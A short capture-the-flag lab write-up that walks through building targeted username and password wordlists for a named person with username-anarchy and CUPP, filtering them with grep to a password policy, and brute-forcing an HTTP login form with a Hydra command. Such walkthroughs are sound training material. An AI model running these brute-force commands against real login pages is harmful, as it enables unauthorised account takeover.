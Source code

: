 # Custom Wordlists

### After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Generate usernames:

* {% code overflow="wrap" %}
  ```bash
  ./username-anarchy Jane Smith > jane_smith_usernames.txt
  ```
  {% endcode %}

**Step 2** - Use CUPP to create a personolyzed passoword list:

*

    <figure><img src="../../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Filter the password to match the following policy:

* Minimum Length: 6 characters
* Must Include:
  * At least one uppercase letter
  * At least one lowercase letter
  * At least one number
  * At least two special characters (from the set `!@#$%^&*`)
*   {% code overflow="wrap" %}
    ```bash
    grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
    ```
    {% endcode %}



**Step 4** - Brute-force the login form with Hydra:

* {% code overflow="wrap" %}
  ```bash
  hydra -L jane_smith_usernames.txt -P jane-filtered.txt SERVER_IP -s SERVERPORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>

**Step 5** - Login with the credentials and get the flag:

<figure><img src="../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>
